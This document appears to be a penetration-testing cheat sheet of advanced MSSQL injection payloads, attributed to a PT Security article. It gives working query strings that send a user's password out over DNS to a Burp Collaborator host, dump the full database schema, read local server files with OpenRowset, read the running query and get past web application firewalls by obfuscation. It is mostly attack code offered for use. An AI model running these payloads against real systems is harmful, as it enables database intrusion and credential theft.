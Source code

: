 # MSSQL Advanced Exploitation Tips


## DNS Out-of-Band

### fn_get_audit_file()
```
?id= 1+and+exists(select+*+from+fn_xe_file_target_read_file('C:\*.xel','\\'%2b(select+pass+from+users+where+id=1)%2b'.064edw6l0h153w39ricodvyzuq0ood.burpcollaborator.net\1.xem',null,null))
```

### fn_trace_gettable()

```
?id=1+and+exists(select+*+from+fn_trace_gettable('\\'%2b(select+pass+from+users+where+id=1)%2b'.ng71njg8a4bsdjdw15mbni8m4da6yv.burpcollaborator.net\1.trc',default))
```

## Alternative Error-Based vectors

```
SUSER_NAME()
USER_NAME()
PERMISSIONS()
DB_NAME()
FILE_NAME()
TYPE_NAME()
COL_NAME()
```

Example: `1'%2buser_name(@@version)--`

##  Retrieve an entire table in one query

```
?id=-1'+union+select+null,concat_ws(0x3a,table_schema,table_name,column_name),null+from+information_schema.columns+for+json+auto-- 
```

```
?id=1'+and+1=(select+concat_ws(0x3a,table_schema,table_name,column_name)a+from+information_schema.columns+for+json+auto)-- 
```

## Reading local files

```
?id=-1+union+select+null,(select+x+from+OpenRowset(BULK+’C:\Windows\win.ini’,SINGLE_CLOB)+R(x)),null,null
```

### Error-based vector

```
?id=1+and+1=(select+x+from+OpenRowset(BULK+'C:\Windows\win.ini',SINGLE_CLOB)+R(x))--
```

## Retrieving the current query

```
?id=-1%20union%20select%20null,(select+text+from+sys.dm_exec_requests+cross+apply+sys.dm_exec_sql_text(sql_handle)),null,null
```

## WAF bypasses

Non-standard whitespace characters: %C2%85 или %C2%A0:

```
?id=1%C2%85union%C2%85select%C2%A0null,@@version,null-- 
```

Scientific (0e) and hex (0x) notation for obfuscating UNION:

```
?id=0eunion+select+null,@@version,null--
```
```
?id=0xunion+select+null,@@version,null-- 
```

A period instead of a whitespace between FROM and a column name:

```
?id=1+union+select+null,@@version,null+from.users-- 
```

\N seperator between SELECT and a throwaway column:

```
?id=0xunion+select\Nnull,@@version,null+from+users-- 
```

### Source

https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/